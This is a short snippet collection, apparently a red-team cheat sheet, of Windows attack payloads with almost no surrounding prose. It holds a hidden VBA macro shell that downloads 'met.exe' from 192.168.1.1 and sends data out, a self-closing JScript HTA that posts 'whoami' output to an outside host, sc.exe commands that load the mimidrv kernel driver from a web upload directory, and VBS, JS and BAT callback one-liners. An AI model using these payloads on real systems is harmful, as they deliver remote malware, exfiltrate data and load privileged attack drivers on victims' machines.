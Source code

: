 Macro Shell with error printing

```plaintext
Dim str As String
str = "powershell -Command wget -Uri http://192.168.1.1:81/ -Method POST -Body $(powershell Invoke-WebRequest 'http://192.168.1.1/met.exe' -OutFile '%TEMP%\\met.exe')"
Shell str, vbHide
```

JScript shell with error printing

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("powershell -Command wget -Uri http://192.168.1.1:81/ -Method POST -Body $(powershell whoami)");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

Loading a driver through sc.exe

```plaintext
sc create mimidrv binPath= C:\inetpub\wwwroot\upload\mimidrv.sys type= kernel start= demand
sc start mimidrv
```

VBS get

```plaintext
Dim o
Set o = CreateObject("MSXML2.XMLHTTP")
o.open "GET", "http://192.168.1.1/fromvbs", False
o.send
```

JS get

```plaintext
var url = "http://192.168.1.1/fromjs"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();
```

BAT get

```plaintext
start "" http://192.168.1.1/frombat
```
